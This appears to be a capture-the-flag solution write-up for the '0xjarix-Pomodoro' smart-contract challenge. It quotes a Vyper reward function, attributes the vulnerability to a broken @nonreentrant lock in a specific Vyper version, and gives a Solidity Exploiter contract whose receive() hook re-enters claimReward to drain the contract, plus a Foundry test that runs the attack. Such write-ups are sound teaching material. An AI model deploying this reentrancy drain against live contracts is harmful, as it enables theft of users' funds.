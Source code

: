 # 0xjarix-Pomodoro - Solution

## Find the vulnerability

Looking at the contract we found that the only external call is present in `claimReward` function. Let's dive deeper.

```python
@external
@nonreentrant('')
def claimReward(_tokenId: uint256):
    # Verify NFT ownership
    assert PomodoroNFT(self.nftAddress).ownerOf(_tokenId) == msg.sender
    session: Session = self.sessions[msg.sender]

    # Ensure session is not currently paused
    assert not session.isPaused and session.ongoing

    # Calculate total session time including any previous accumulations
    totalSessionTime: uint256 = session.accumulatedTime
    totalSessionTime += block.timestamp - session.lastPause

    # Verify enough time has passed for a reward
    assert totalSessionTime >= self.sessionDuration

    # Calculate how many rewards are due
    rewardsDue: uint256 = totalSessionTime / self.sessionDuration

    # send rewards
    raw_call(msg.sender, b"", value=rewardsDue * (10 ** 16))

    # Reset or adjust session details based on remaining time
    self.remainingTime = totalSessionTime % self.sessionDuration
    self.sessions[msg.sender].ongoing = False
```

The function has a nonreentrant modifier so in theory it can't be reentered. However looking at vyper specific version vulnerability [here](https://security.snyk.io/package/pip/vyper/0.3.9) we found [this](https://security.snyk.io/vuln/SNYK-PYTHON-VYPER-5905483). `@nonreentrant('')` lock is bugged and do not check for reentrancy. Bingo!

## Exploit the contract

To exploit the contract we just need to create a contract that re-enter the function.

```solidity
contract Exploiter {
    IPomodoro pomodoro;
    IPomodoroNFT pomodoroNFT;

    constructor(address _pomodoro, address _pomodoroNFT) {
        pomodoro = IPomodoro(_pomodoro);
        pomodoroNFT = IPomodoroNFT(_pomodoroNFT);
    }

    function mintAndStartWorkSession() external payable {
        pomodoroNFT.mint{value: 0.1 ether}(address(this));
        pomodoro.startWorkSession(4);
    }

    function attack() external {
        pomodoro.claimReward(4);
    }

    receive() external payable {
        if (address(pomodoro).balance > 0) {
            pomodoro.claimReward(4);
        }
    }
}
```

Just warp for 1 pomodoro session and attack the contract.

```solidity
Exploiter exploiter = new Exploiter(address(pomodoro), address(pomodoroNFT));
exploiter.mintAndStartWorkSession{value: 0.1 ether}();
vm.warp(25 minutes + 1);
exploiter.attack();
```
